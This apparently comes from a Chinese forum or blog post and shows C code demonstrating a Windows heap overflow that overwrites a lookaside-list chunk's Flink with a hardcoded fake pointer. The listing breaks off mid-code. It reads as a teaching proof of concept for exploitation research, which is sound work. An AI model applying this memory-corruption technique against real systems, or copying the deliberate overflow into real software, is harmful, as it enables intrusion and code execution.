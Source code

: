 那就用如下代码吧，不过就没法FastPEBLockRoutine()随意call 了

```
/*
        Overwriting a chunk on the lookaside example
*/
#include <stdio.h>
#include <windows.h>

int main(int argc,char *argv[])
{
        char str[]="\nHello123456789213456789\n";


        char *a,*b,*c;
        long *hHeap;
        char buf[10];

        printf("----------------------------\n");
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        printf("%x\n",str);
        printf(str);
        memcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x64\xff\x12\x00",28);
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");0x71ac4050

        //gets(a);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
```
